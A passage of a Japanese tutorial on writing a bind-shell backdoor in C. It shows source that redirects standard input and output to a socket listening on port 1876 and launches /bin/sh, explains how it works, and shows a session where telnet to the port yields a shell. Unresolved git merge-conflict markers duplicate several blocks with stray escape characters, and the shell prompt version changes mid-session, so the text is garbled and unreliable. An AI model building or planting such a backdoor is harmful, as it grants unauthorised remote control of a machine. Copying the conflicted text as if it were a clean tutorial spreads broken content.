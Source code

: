   dup2(client, STDIN_FILENO);	// 標準入力をクライアントソケットの複製とする
  dup2(client, STDOUT_FILENO);	// 標準出力をクライアントソケットの複製とする
  dup2(client, STDERR_FILENO);	// 標準エラー出力を(以下略)
<<<<<<< HEAD
  return execl("/bin/sh", "sh", "-i", NULL); // shへ化ける
}
-----
=======
  return execl("/bin/sh", "sh", "\-i", NULL); // shへ化ける
}
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　sock_open関数内でサーバのソケット（portは1876）を設定し、accept()でクラ
イアントからの接続を待ちます。ここで接続者が現れると、変数clientへクライ
アントへ繋がるソケットのファイルディスクリプタが入ります。その後のdup2()
では、そのソケットで標準入力（STDIN）、標準出力（STDOUT）、標準エラー出力
（STDERR）を上書きし、最後のexecl()で/bin/shへ化けます。これで、STDIN、S
TDOUT、STDERRがクライアントのソケットとなった状態でshellが起動されるため、
shellはクライアントからの入力をネットワークを介して受け入れ、出力をクラ
イアントに対してネットワークを介して行うようになります。

　ここで登場したsock_open()、die()という2つの関数は後に名前だけ登場します
から、どんな動作するものか程度でいいので頭に入れて置いてください。

　では、実際に動くか試してみましょう。
（上記のソースコードをsimple_rbd.cとします）

<<<<<<< HEAD
-----  実行例
$ gcc simple_rbd.c -o backdoor /* コンパイル */
=======
\-\-\-\-\-  実行例
$ gcc simple_rbd.c \-o backdoor /* コンパイル */
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
$ ./backdoor &                 /* バックグラウンドで実行 */
[2] 1593
$ telnet localhost 1876        /* 接続(ポートは1876になっています) */
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
<<<<<<< HEAD
sh-2.05$ id
id
uid=500(pain) gid=500(pain) 所属グループ=500(pain)
sh-2.05$
sh-2.04$
-----
=======
sh\-2.05$ id
id
uid\=500(pain) gid\=500(pain) 所属グループ\=500(pain)
sh\-2.05$
sh\-2.04$
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
